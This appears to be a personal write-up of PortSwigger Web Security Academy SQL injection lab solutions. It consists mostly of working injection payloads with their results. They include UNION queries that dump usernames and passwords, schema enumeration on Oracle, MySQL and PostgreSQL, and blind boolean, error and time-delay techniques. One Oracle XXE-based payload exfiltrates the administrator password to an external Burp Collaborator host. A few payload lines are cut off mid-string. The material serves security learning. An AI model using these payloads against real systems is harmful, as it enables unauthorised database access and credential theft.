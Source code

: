 # SQL Injections

Solutions for SQL Injections 

## Retrieving hidden data

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+OR+1=1--
```

## Subverting application logic

```python
batman'--
```

## Retrieving data from other database tables

### Finding number of columns for union injection

this errors out

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null--

Result 
Error status code - 500 Internal Server Error

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,null--

Result 
Error status code - 500 Internal Server Error

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,null,null--

Result 
Web page appers like normal so there are 3 columns in this sql query 

```

so we keep increasing null's till we don't get an error we are using null instead of values because null is valid characters in every major database which will not error out when data type of the data is incorrect

### Finding columns with string data type in all three columns

we will fuzz and find a column to get a valid column that can give us a place to retrieve data from the app 

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+'lol',null,null--

Result 
Error status code - 500 Internal Server Error

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,'lol',null--

https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+null,'lol','lol'--

Result  
Web page appers like normal so 2 & 3 columns in this sql query can print strings

```

## Using an SQL injection UNION attack to retrieve passwords and users from database

We can take data of username and password from database with this Query 

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Pets'+UNION+SELECT+username,password+FROM+users--

result
administrator azyikm320mdsf903

```

### Getting many columns from database by using just one union column with concatination

when only one column have string data type we can not use above technique there are than two ways we can either take out data one at a time or we can use concatenation below example we used oracle DB's concatenation method you can look for more syntax for other db's at this link

[SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

Result
wiener~griffin
administrator~azyikm320mdsf903
carlos~meowlol
```

# Examining the database

## Getting DB's version in different database's

### SQL injection attack, querying the database type and version on Oracle

```python
https://acbe1f881f0ca4fb801e011d00380072.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

```python
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases

```python
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### **SQL injection attack, listing the database contents on Oracle**

```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k

```

# **Blind SQL injection vulnerabilities**

## **Blind SQL injection with conditional responses**

Determine password length:

```
TrackingId=a'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(passwor
```

use the script in this repo i created to retrieve the password of administrator user or you can use burp intruder with a cluster bomb see how to do it here

[vernjan/web-security-academy](https://github.com/vernjan/web-security-academy/blob/master/SQLi.md)

```python
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='b'--;

TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='a'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='c'--;
```

## **Blind SQL injection with conditional errors**

Determine password length:

```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>6)+T
```

use the script in this repo i created to retrieve the password of administrator user or you can use burp intruder with a cluster bomb 

```python
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,1,1)='a')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;

TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,1,1)='b')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;

TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,1,1)='c')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```

### **Blind SQL injection with time delays**

```
TrackingId=x'||pg_sleep(10)--
```

### **Blind SQL injection with time delays and information retrieval**

Determine password length:

```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+length(password)=6)+then+pg_sle
```

use the script in this repo i created to retrieve the password of administrator user or you can use burp intruder with a cluster bomb 

```python
TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='a')+then+pg_sleep(10)+else+null+end+from+users--;

TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='b')+then+pg_sleep(10)+else+null+end+from+users--;

TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='c')+then+pg_sleep(10)+else+null+end+from+users--;

TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,1,1)='d')+then+pg_sleep(10)+else+null+end+from+users--;
```

## **Blind SQL injection with conditional responses**

### **Blind SQL injection with out-of-band interaction**

```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//fddgsfsgsdgdfvdfsgt.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

```

### **Blind SQL injection with out-of-band data exfiltration**

```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.tt6htrgfbfdgdfgfddg.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--;

```

Burp Collaborator 

![SQL%20Injections%205db06954ffab458189778feb212042ad/Screenshot_1.png](SQL%20Injections%205db06954ffab458189778feb212042ad/Screenshot_1.png)

### Note:- some of the examples here are taken from this repo because when i was going through the lab i forgot to document the results and queries

[vernjan/web-security-academy](https://github.com/vernjan/web-security-academy/blob/master/SQLi.md)
